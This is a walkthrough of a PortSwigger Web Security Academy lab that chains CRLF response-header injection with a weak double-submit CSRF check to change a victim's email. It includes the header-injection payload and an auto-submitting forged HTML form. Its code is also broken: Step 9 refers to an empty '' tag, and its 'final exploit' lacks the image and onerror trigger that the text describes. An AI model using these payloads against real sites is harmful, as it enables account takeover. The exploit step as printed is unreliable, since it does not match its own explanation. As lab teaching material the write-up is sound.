### CSRF where token is tied to non-session cookie

**Category:** Cross-Site Request Forgery (CSRF)  
**Difficulty:** Practitioner  
**Platform:** PortSwigger Web Security Academy

### Overview

This lab demonstrates a CSRF vulnerability caused by an **incorrect implementation of the double-submit cookie pattern**.

Normally, an application protects sensitive actions such as changing an email address by requiring a CSRF token that is tied
to the authenticated user's session. During form submission, the server verifies that the submitted token belongs to the
logged-in user.

In this lab, however, the application stores the CSRF token inside a cookie named **`csrfKey`** and simply checks whether
the value of the `csrf` POST parameter matches the value stored in the cookie.

```
csrf parameter == csrfKey cookie
```

The application **does not verify whether the token belongs to the current user's session**.

To make matters worse, the search functionality is vulnerable to **HTTP Response Header Injection (CRLF Injection)**, 
allowing an attacker to inject arbitrary HTTP response headers, including a malicious **Set-Cookie** header.

By combining these two vulnerabilities, an attacker can overwrite the victim's `csrfKey` cookie and submit a forged request
using the same value, completely bypassing the CSRF protection.

---

# Goal

Exploit the weak CSRF protection to change the victim's email address without knowing their original CSRF token.

---

# Step 1 – Analyze the Email Change Request

Log into the application using the provided credentials and navigate to:

```
My Account
```

Change the email address to any value while intercepting the request using Burp Suite.

The request looks similar to:

```http
POST /my-account/change-email HTTP/2

Cookie:
session=...
csrfKey=QMxY3Uh1ZDcFGGXoDdCRz57M2nWnW0UD

email=test@test.com
csrf=QSVOzZDt89HdFiuGvbRlQoUBQwXu5KTn
```

Notice that the request contains:

- A `csrf` parameter in the POST body.
- A `csrfKey` cookie.

At first glance, this appears to be a normal CSRF implementation.

However, the server only verifies that both values are equal.




# Step 2 – Verify CSRF Validation

Remove the `csrf` parameter from the intercepted request and send it again.

The application responds with:

```
Invalid CSRF token
```

This confirms that a CSRF token is required.

Now replace the token with any random value.

Again, the server rejects the request.

This tells us that the application validates the token, but we still don't know **how** it performs the validation.




# Step 3 – Capture Carlos's CSRF Token

Log in as **Carlos** and navigate to the **My Account** page.

Inspect the email update form using your browser's Developer Tools (or Burp's Inspector). The form contains a hidden `csrf` input field that holds Carlos's current CSRF token.

Example:

```html
<input type="hidden"
name="csrf"
value="QSVOzZDt89HdFiuGvbRlQoUBQwXu5KTn">
```

Copy this CSRF token, as it will be used later when creating the CSRF proof of concept.




# Step 4 – Inspect Browser Cookies

Open the browser's Developer Tools and navigate to the **Storage** or **Cookies** section.

The application stores two cookies:

```
session=...
csrfKey=...
```

The presence of a dedicated `csrfKey` cookie strongly suggests that the application validates the CSRF token against this
cookie instead of the server-side session.

This is a weak implementation because cookies are client-controlled.




# Step 5 – Investigate the Search Functionality

Browse the application and inspect the search feature.

Searching for any value generates a request similar to:

```
GET /?search=test
```

The response contains a header similar to:

```http
Set-Cookie:
lastSearchTerm=test
```

Since user input appears inside an HTTP response header, this endpoint is a potential target for **HTTP Response Header Injection (CRLF Injection).**




# Step 6 – Test for CRLF Injection

Replace the search value with:

```
testing%0d%0aSet-Cookie:%20csrfKey=test
```

Breaking down the payload:

```
%0d
```

represents a **Carriage Return (CR)**

```
%0a
```

represents a **Line Feed (LF)**

Together,

```
%0d%0a
```

terminate the current HTTP header and begin a new one.

The injected payload becomes:

```http
Set-Cookie:
csrfKey=test
```

If the browser accepts this header, the attacker can overwrite the victim's CSRF cookie.




# Step 7 – Inject a Malicious Cookie

Now replace the temporary value with the attacker's chosen CSRF cookie.

Payload:

```
/?search=testing%0d%0aSet-Cookie:%20csrfKey=QMxY3Uh1ZDcFGGXoDdCRz57M2nWnW0UD%3b%20SameSite=None
```

The response now contains:

```http
Set-Cookie:
csrfKey=QMxY3Uh1ZDcFGGXoDdCRz57M2nWnW0UD;
SameSite=None
```

The victim's browser overwrites its existing `csrfKey` cookie with the attacker-controlled value.

Adding `SameSite=None` ensures that the browser includes this cookie during the cross-site CSRF request.




# Step 8 – Generate the CSRF Proof of Concept

After confirming that the `csrfKey` cookie can be overwritten, generate a CSRF PoC using **Burp Suite**.

Right-click the intercepted **Change Email** request and select:

```
Engagement Tools → Generate CSRF PoC
```

Burp generates an HTML form similar to the following:

```html
<html>
<body>

<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="attacker@gmail.com">
    <input type="hidden" name="csrf" value="QSVOzZDt89HdFiuGvbRlQoUBQwXu5KTn">
    <input type="submit" value="Submit request">
</form>

</body>
</html>
```

At this point, the exploit **will not work** because the victim still has their original `csrfKey` cookie.

The cookie must first be overwritten using the CRLF injection discovered earlier.




# Step 9 – Modify the Exploit

Edit the generated HTML and add an `` tag that triggers the CRLF injection before submitting the form.

The final exploit becomes:

```html
<html>
<body>

<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="attacker@gmail.com">
    <input type="hidden" name="csrf" value="QSVOzZDt89HdFiuGvbRlQoUBQwXu5KTn">
    <input type="submit" value="Submit request">
</form>


</body>
</html>
```

### How it works

1. The browser loads the image.
2. The request reaches the vulnerable search endpoint.
3. The CRLF payload injects a new `Set-Cookie` header.
4. The browser replaces the existing `csrfKey` cookie.
5. The image fails to load.
6. The `onerror` event automatically submits the forged form.

Since both the cookie and POST parameter now contain attacker-controlled values, the CSRF validation succeeds.




# Step 10 – Upload the Exploit

Open the **Exploit Server** provided with the lab.

Paste the modified HTML into the body of the exploit page.

Click:

```
Store
```

The exploit is now hosted by the exploit server.




# Step 11 – Deliver the Exploit

Click:

```
Deliver exploit to victim
```

When the victim visits the exploit page, the following sequence occurs automatically:

1. The malicious image is requested.
2. The CRLF injection executes.
3. The browser processes the injected `Set-Cookie` header.
4. The victim's `csrfKey` cookie is replaced.
5. The forged form is submitted automatically.
6. The email address is changed successfully.

No user interaction is required other than visiting the attacker's page.




# Step 12 – Lab Solved

After the victim processes the exploit, the email address is successfully changed and the lab is marked as solved.




### Attack Flow

```
Victim visits attacker's page
            │
            ▼
Malicious image is requested
            │
            ▼
CRLF Injection executes
            │
            ▼
Injected HTTP Response Header

Set-Cookie:
csrfKey=QMxY3Uh1ZDcFGGXoDdCRz57M2nWnW0UD
            │
            ▼
Browser overwrites csrfKey cookie
            │
            ▼
Image fails to load
            │
            ▼
onerror executes
            │
            ▼
Hidden CSRF form submitted
            │
            ▼
POST /my-account/change-email

csrf = QSVOzZDt89HdFiuGvbRlQoUBQwXu5KTn

Cookie:

csrfKey = QMxY3Uh1ZDcFGGXoDdCRz57M2nWnW0UD
            │
            ▼
Server compares

csrf parameter == csrfKey cookie
            │
            ▼
Validation succeeds
            │
            ▼
Victim's email address changes
```


### Why the Attack Works

The application attempts to protect against Cross-Site Request Forgery using the **double-submit cookie** technique. However,
the implementation is flawed because the server never verifies that the CSRF token belongs to the authenticated user's 
session.

Instead, it only checks whether the value supplied in the POST request matches the value stored in the `csrfKey` cookie.

Since the search functionality is vulnerable to **HTTP Response Header Injection (CRLF Injection)**, an attacker can inject
a malicious `Set-Cookie` header into the server's response. This allows the attacker to overwrite the victim's `csrfKey`
cookie with a value of their choice.

The attacker then submits a forged request containing the same value in the `csrf` parameter. Because the application simply
compares these two values, the request is accepted even though the token was never issued for the victim's session.

By chaining together CRLF Injection and an insecure CSRF implementation, the attacker is able to perform authenticated 
actions on behalf of the victim.


### Vulnerabilities Exploited

- Cross-Site Request Forgery (CSRF)
- Incorrect Double-Submit Cookie Implementation
- HTTP Response Header Injection
- CRLF Injection
- Cookie Injection
- Missing Session Binding of CSRF Tokens


### Key Takeaways

- CSRF tokens should always be cryptographically bound to the authenticated user's session.
- Never rely solely on matching a request parameter with a client-controlled cookie.
- User input should never be reflected into HTTP response headers without proper sanitization.
- CRLF Injection can lead to arbitrary HTTP header injection, including `Set-Cookie`.
- Combining multiple low-severity vulnerabilities can result in a complete bypass of important security mechanisms.
